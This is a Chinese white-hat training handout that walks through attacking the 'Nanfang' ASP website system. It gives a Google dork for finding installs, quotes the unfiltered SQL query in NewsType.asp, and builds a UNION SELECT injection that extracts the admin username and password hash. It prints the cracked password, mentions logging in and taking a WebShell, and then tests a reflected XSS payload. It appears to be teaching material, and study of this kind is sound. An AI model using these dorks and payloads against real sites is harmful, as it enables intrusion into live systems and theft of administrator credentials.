






# 米斯特白帽培训讲义 实战篇 南方 0day

> 讲师：[gh0stkey](https://www.zhihu.com/people/gh0stkey/answers)
> 
> 整理：[飞龙](https://github.com/)
> 
> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 搜索

关键词：`inurl:"HomeMarket.asp"`。

## 下载与部署

[http://www.jb51.net/article/5336.htm](http://www.jb51.net/article/5336.htm)

## SQL 注入

我们打算检测其中的 SQL 注入漏洞，由于 ASP 代码基本没有什么好的过滤，一般一查一个准。为了搜索 SQL 注入漏洞，我们可以使用`sql`、`conn`这类名称、或者`execute`这类函数来定位到数据库查询低吗位置。

比如在`NewsType.asp`的 14 ~ 32 行，我们发现了：

```
 <%
' ...
BigClass=request("BigClass")
SmallClass=request("SmallClass")
' ...
%>
<%
if BigClass<>"" and SmallClass<>"" then
sql="select  * from News where BigClassName='"& BigClass &"' and  SmallClassName='"& SmallClass &"' order by AddDate desc"
set rs=conn.execute(sql)
do while not rs.eof 
%>
```

我们看到这是文本型的参数，也就是说我们注入的时候要想办法闭合单引号。而且它用的是 Access 数据库，我们没办法像 MySQL 和 SQLServer 那样使用`--`来注释。

我们照旧为`SmallClass`输入`' and '1'='1`，构造的 URL 为`NewsType.asp?SmallClass=%27%20and%20%271%27=%271`，发现正常。



输入`' and '1'='2`，构造的 URL 为`NewsType.asp?SmallClass=%27%20and%20%271%27=%272`，发现错误。



接下来我们查看源码目录下的`Databases/0791idc.mdb`，知道了`News`表一共有十个字段。

之后输入`' and 1=2 union select 1,2,3,4,5,6,7,8,9,0 from admin where '1'='1`，发现显示 2 和 9：



之后就很简单了，我们先看看`admin`表里面的用户名和密码都叫做啥。我们把 2 替换为`username`，9 替换为`password`。



然后把`f3a976c77dc7264c`送到 pmd5 解密，结果为`060618`。

之后可以从`/admin`访问后台，登录并继续拿 WebShell。

## XSS

我们点击网站右上角的“联系我们”，可以发现这个页面的 URL 中出现了这四个字，页面中也出现了这四个字。


然后我们把 URL 中的`Title`参数改成`1`：



这就提示我们这里面可能会出现 XSS，我们改成`<script>alert(1)</script>`：



我们看到源代码中出现了这个东西。